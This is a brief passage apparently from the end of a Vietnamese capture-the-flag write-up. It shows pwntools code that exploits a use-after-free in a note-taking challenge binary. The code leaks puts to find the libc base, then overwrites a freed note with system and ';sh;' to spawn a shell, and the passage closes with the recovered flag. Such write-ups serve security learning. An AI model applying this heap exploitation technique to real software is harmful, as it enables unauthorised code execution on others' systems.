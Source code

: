 ```
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))

delete(2)
create(8, p32(libc.sym['system']) + b';sh;')
printf(0)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: FLAG{Us3_aft3r_fl3333_in_h4ck_not3}`